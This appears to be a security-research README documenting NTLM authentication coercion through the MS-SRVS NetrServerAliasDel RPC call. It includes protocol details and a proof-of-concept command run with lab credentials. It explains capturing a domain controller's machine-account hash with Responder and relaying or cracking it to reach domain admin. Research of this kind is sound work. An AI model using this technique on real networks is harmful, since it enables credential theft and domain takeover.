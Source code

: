 # MS-SRVS - Remote call to NetrServerAliasDel (opnum 56)

## Summary

 - **Protocol**: [[MS-SRVS]: Server Service Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-srvs/accf23b0-0f57-441c-9185-43041f1b0ee9)

 - **Protocol UUID**: 4b324fc8-1670-01d3-1278-5a47bf6ee188

 - **Protocol version**: 3.0

 - **SMB Named pipe**: `\PIPE\srvsvc`

 - **Function name**: [`NetrServerAliasDel`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-srvs/01cff142-0307-43be-907b-1cc950eb3c34)

 - **Function operation number**: `56`

 - **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `\PIPE\srvsvc` and bind to the desired [`MS-SRVS`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-srvs/accf23b0-0f57-441c-9185-43041f1b0ee9) protocol (with uuid `4b324fc8-1670-01d3-1278-5a47bf6ee188` and version `3.0`) in order to perform remote procedure calls to functions in the [`MS-SRVS`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-srvs/accf23b0-0f57-441c-9185-43041f1b0ee9) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\PIPE\srvsvc` This pipe is connected to the protocol [[MS-SRVS]: Server Service Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-srvs/accf23b0-0f57-441c-9185-43041f1b0ee9) and allows to call RPC functions of this protocol. We will then call the remote [`NetrServerAliasDel`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-srvs/01cff142-0307-43be-907b-1cc950eb3c34) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
NetrServerAliasDel('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
NET_API_STATUS NetrServerAliasDel(
   [in, string, unique] SRVSVC_HANDLE ServerName,
   [in] DWORD Level,
   [in, switch_is(Level)] LPSERVER_ALIAS_INFO InfoStruct
 );
```

## References

 - Documentation of protocol [MS-SRVS]: Server Service Remote Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-srvs/accf23b0-0f57-441c-9185-43041f1b0ee9

 - Documentation of function `NetrServerAliasDel`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-srvs/01cff142-0307-43be-907b-1cc950eb3c34